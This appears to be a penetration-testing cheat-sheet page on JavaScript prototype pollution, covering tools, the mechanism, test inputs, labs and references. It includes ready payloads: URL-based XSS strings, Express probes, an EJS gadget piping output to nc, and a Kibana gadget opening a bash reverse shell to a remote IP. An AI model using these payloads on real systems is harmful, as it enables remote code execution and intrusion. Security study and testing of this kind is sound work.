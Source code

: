```yaml
---
layout: page
title: Prototype pollution
description: 
img:
importance: 3
category: vulns
img: assets/img/hacking/prototypePollution.png
toc:
    sidebar: left
---
```


> Prototype pollution is a type of vulnerability that occurs in JavaScript when properties of Object. Prototype are modified. This is particularly risky because JavaScript objects are dynamic and we can add properties to them at any time. Also, almost all objects in JavaScript inherit from Object.prototype, making it a potential attack vector.

## Summary

- [Tools](#tools)
- [Methodology](#methodology)
  - [Examples](#examples)
  - [Manual Testing](#manual-testing)
  - [Prototype Pollution via JSON Input](#prototype-pollution-via-json-input)
  - [Prototype Pollution in URL](#prototype-pollution-in-url)
  - [Prototype Pollution Payloads](#prototype-pollution-payloads)
  - [Prototype Pollution Gadgets](#prototype-pollution-gadgets)
- [Labs](#labs)
- [References](#references)

## Tools

- [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder) - Help you find gadget for prototype pollution exploitation
- [yuske/silent-spring](https://github.com/yuske/silent-spring) - Prototype Pollution Leads to Remote Code Execution in Node.js
- [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) - Server-Side Prototype Pollution gadgets in Node.js core code and 3rd party NPM packages
- [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution) - Prototype Pollution and useful Script Gadgets
- [portswigger/server-side-prototype-pollution](https://github.com/portswigger/server-side-prototype-pollution) - Burp Suite Extension detectiong Prototype Pollution vulnerabilities
- [msrkp/PPScan](https://github.com/msrkp/PPScan) - Client Side Prototype Pollution Scanner

## Methodology

In JavaScript, prototypes are what allow objects to inherit features from other objects. If an attacker is able to add or modify properties of `Object.prototype`, they can essentially affect all objects that inherit from that prototype, potentially leading to various kinds of security risks.

```js
var myDog = new Dog();
```

```js
// Points to the function "Dog"
myDog.constructor;
```

```js
// Points to the class definition of "Dog"
myDog.constructor.prototype;
myDog.__proto__;
myDog["__proto__"];
```

### Examples

- Imagine that an application uses an object to maintain configuration settings, like this:
  ```js
  let config = {
    isAdmin: false,
  };
  ```
- An attacker might be able to add an `isAdmin` property to `Object.prototype`, like this:
  ```js
  Object.prototype.isAdmin = true;
  ```

### Manual Testing

- ExpressJS: `{ "__proto__":{"parameterLimit":1}}` + 2 parameters in GET request, at least 1 must be reflected in the response.
- ExpressJS: `{ "__proto__":{"ignoreQueryPrefix":true}}` + `??foo=bar`
- ExpressJS: `{ "__proto__":{"allowDots":true}}` + `?foo.bar=baz`
- Change the padding of a JSON response: `{ "__proto__":{"json spaces":" "}}` + `{"foo":"bar"}`, the server should return `{"foo": "bar"}`
- Modify CORS header responses: `{ "__proto__":{"exposedHeaders":["foo"]}}`, the server should return the header `Access-Control-Expose-Headers`.
- Change the status code: `{ "__proto__":{"status":510}}`

### Prototype Pollution via JSON Input

You can access the prototype of any object via the magic property `__proto__`.
The `JSON.parse()` function in JavaScript is used to parse a JSON string and convert it into a JavaScript object. Typically it is a sink function where prototype pollution can happen.

```js
{
    "__proto__": {
        "evilProperty": "evilPayload"
    }
}
```

Asynchronous payload for NodeJS.

```js
{
  "__proto__": {
    "argv0":"node",
    "shell":"node",
    "NODE_OPTIONS":"--inspect=payload\"\".oastify\"\".com"
  }
}
```

Polluting the prototype via the `constructor` property instead.

```js
{
    "constructor": {
        "prototype": {
            "foo": "bar",
            "json spaces": 10
        }
    }
}
```

### Prototype Pollution in URL

Example of Prototype Pollution payloads found in the wild.

```ps1
https://victim.com/#a=b&__proto__[admin]=1
https://example.com/#__proto__[xxx]=alert(1)
http://server/servicedesk/customer/user/signup?__proto__.preventDefault.__proto__.handleObj.__proto__.delegateTarget=%3Cimg/src/onerror=alert(1)%3E
https://www.apple.com/shop/buy-watch/apple-watch?__proto__[src]=image&__proto__[onerror]=alert(1)
https://www.apple.com/shop/buy-watch/apple-watch?a[constructor][prototype]=image&a[constructor][prototype][onerror]=alert(1)
```

### Prototype Pollution Exploitation

Depending if the prototype pollution is executed client (CSPP) or server side (SSPP), the impact will vary.

- Remote Command Execution: [RCE in Kibana (CVE-2019-7609)](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
  ```js
  .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -i >& /dev/tcp/192.168.0.136/12345 0>&1");process.exit()//')
  .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
  ```
- Remote Command Execution: [RCE using EJS gadgets](https://mizu.re/post/ejs-server-side-prototype-pollution-gadgets-to-rce)
  ```js
  {
      "__proto__": {
          "client": 1,
          "escapeFunction": "JSON.stringify; process.mainModule.require('child_process').exec('id | nc localhost 4444')"
      }
  }
  ```
- Reflected XSS: [Reflected XSS on www.hackerone.com via Wistia embed code - #986386](https://hackerone.com/reports/986386)
- Client-side bypass: [Prototype pollution – and bypassing client-side HTML sanitizers](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- Denial of Service

### Prototype Pollution Payloads

```js
Object.__proto__["evilProperty"]="evilPayload"
Object.__proto__.evilProperty="evilPayload"
Object.constructor.prototype.evilProperty="evilPayload"
Object.constructor["prototype"]["evilProperty"]="evilPayload"
{"__proto__": {"evilProperty": "evilPayload"}}
{"__proto__.name":"test"}
x[__proto__][abaeead] = abaeead
x.__proto__.edcbcab = edcbcab
__proto__[eedffcb] = eedffcb
__proto__.baaebfc = baaebfc
?__proto__[test]=test
```

### Prototype Pollution Gadgets

A "gadget" in the context of vulnerabilities typically refers to a piece of code or functionality that can be exploited or leveraged during an attack. When we talk about a "prototype pollution gadget," we're referring to a specific code path, function, or feature of an application that is susceptible to or can be exploited through a prototype pollution attack.

Either create your own gadget using part of the source with [yeswehack/pp-finder](https://github.com/yeswehack/pp-finder), or try to use already discovered gadgets [yuske/server-side-prototype-pollution](https://github.com/yuske/server-side-prototype-pollution) / [BlackFan/client-side-prototype-pollution](https://github.com/BlackFan/client-side-prototype-pollution).

## Labs

- [YesWeHack Dojo - Prototype Pollution](https://dojo-yeswehack.com/XSS/Training/Prototype-Pollution)
- [PortSwigger - Prototype Pollution](https://portswigger.net/web-security/all-labs#prototype-pollution)

## References

- [A Pentester's Guide to Prototype Pollution Attacks - Harsh Bothra - January 2, 2023](https://www.cobalt.io/blog/a-pentesters-guide-to-prototype-pollution-attacks)
- [A tale of making internet pollution free - Exploiting Client-Side Prototype Pollution in the wild - s1r1us - September 28, 2021](https://blog.s1r1us.ninja/research/PP)
- [Detecting Server-Side Prototype Pollution - Daniel Thatcher - February 15, 2023](https://www.intruder.io/research/server-side-prototype-pollution)
- [Exploiting prototype pollution – RCE in Kibana (CVE-2019-7609) - Michał Bentkowski - October 30, 2019](https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/)
- [Server Side Prototype Pollution: Blackbox Detection Without The DoS - Gareth Heyes - March 27, 2023](https://youtu.be/LD-KcuKM_0M)
- [NodeJS - \_\_proto\_\_ & prototype Pollution - HackTricks - July 19, 2024](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)
- [Prototype Pollution - PortSwigger - November 10, 2022](https://portswigger.net/web-security/prototype-pollution)
- [Prototype pollution - Snyk - August 19, 2023](https://learn.snyk.io/lessons/prototype-pollution/javascript/)
- [Prototype pollution and bypassing client-side HTML sanitizers - Michał Bentkowski - August 18, 2020](https://research.securitum.com/prototype-pollution-and-bypassing-client-side-html-sanitizers/)
- [Prototype Pollution and Where to Find Them - BitK & SakiiR - August 14, 2023](https://youtu.be/mwpH9DF_RDA)
- [Prototype Pollution Attacks in NodeJS - Olivier Arteau - May 16, 2018](https://github.com/HoLyVieR/prototype-pollution-nsec18/blob/master/paper/JavaScript_prototype_pollution_attack_in_NodeJS.pdf)
- [Prototype Pollution Attacks in NodeJS applications - Olivier Arteau - October 3, 2018](https://youtu.be/LUsiFV3dsK8)
- [Prototype Pollution Leads to RCE: Gadgets Everywhere - Mikhail Shcherbakov - September 29, 2023](https://youtu.be/v5dq80S1WF4)
- [Server side prototype pollution, how to detect and exploit - BitK - February 18, 2023](http://web.archive.org/web/20230218081534/https://blog.yeswehack.com/talent-development/server-side-prototype-pollution-how-to-detect-and-exploit/)
- [Server-side prototype pollution: Black-box detection without the DoS - Gareth Heyes - February 15, 2023](https://portswigger.net/research/server-side-prototype-pollution)
